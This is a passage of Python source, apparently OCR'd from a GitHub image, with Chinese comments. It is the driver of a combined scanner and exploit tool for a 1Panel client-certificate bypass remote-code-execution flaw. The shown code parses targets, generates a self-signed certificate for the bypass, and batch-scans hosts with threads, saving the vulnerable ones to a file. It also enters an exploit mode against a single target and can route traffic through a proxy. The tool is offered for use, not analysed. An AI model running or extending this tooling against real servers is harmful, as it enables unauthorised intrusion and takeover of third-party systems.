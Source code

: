 ```python
                else:
                    print(f"[-] {target:<21} - {message}")
    
    if vulnerable_hosts:
        print(f"\n[*] 检测完成！发现 {len(vulnerable_hosts)} 个存在漏洞的目标。")
        with open(output_file, 'w') as f:
            for host in vulnerable_hosts:
                f.write(host + '\n')
        print(f"[+] 结果已保存到文件: {output_file}")
    else:
        print("\n[*] 检测完成，未发现存在漏洞的目标。")

def main():
    parser = argparse.ArgumentParser(description="1Panel 客户端证书绕过RCE漏洞 一体化工具 (扫描+利用)\n作者: Mrxn https://github.com/Mr-xn", formatter_class=argparse.RawTextHelpFormatter)
    mode = parser.add_mutually_exclusive_group(required=True)
    mode.add_argument("-u", "--url", help="单个目标，进入利用模式。例如: 192.168.1.100:8080")
    mode.add_argument("-f", "--file", help="目标文件，进入批量扫描模式。")
    
    parser.add_argument("-o", "--output", default="vulnerable_targets.txt", help="[扫描模式] 保存漏洞结果的文件名。")
    parser.add_argument("-t", "--threads", type=int, default=20, help="[扫描模式] 并发线程数。")
    parser.add_argument("--proxy", help="为所有请求设置代理。例如: http://127.0.0.1:8080")
    args = parser.parse_args()

    cert_path, key_path = generate_self_signed_cert()
    if not cert_path: sys.exit(1)

    proxy_dict = {"http": args.proxy, "https": args.proxy} if args.proxy else {}
    proxy_opts = {}
    if args.proxy:
        print(f"[*] 所有请求将通过代理: {args.proxy}")
        p = urlparse(args.proxy)
        proxy_opts = {"proxy_type": p.scheme, "http_proxy_host": p.hostname, "http_proxy_port": p.port, "http_proxy_auth": (p.username, p.password) if p.username else None}

    try:
        if args.url:
            # --- 利用模式 ---
            print(f"---[ 进入单点利用模式: {args.url} ]---")
            is_vulnerable, message = check_target(args.url, cert_path, key_path, proxy_dict, proxy_opts)
            if is_vulnerable:
                print(f"[+] 目标 {args.url} 确认存在漏洞!")
                run_exploit_mode(args.url, cert_path, key_path, proxy_opts)
            else:
                print(f"[-] 目标 {args.url} 不存在漏洞或无法访问: {message}")
        
        elif args.file:
            # --- 扫描模式 ---
            print(f"---[ 进入批量扫描模式: {args.file} ]---")
            if not os.path.exists(args.file):
                print(f"[ERROR] 目标文件不存在: {args.file}"); return
            with open(args.file, 'r') as f:
                targets = [line.strip() for line in f if line.strip()]
            if not targets:
                print("[ERROR] 目标文件为空。"); return
            run_scan_mode(targets, cert_path, key_path, proxy_dict, proxy_opts, args.threads, args.output)

    except KeyboardInterrupt:
        print("\n[*] 用户中断，正在退出...")
    finally:
```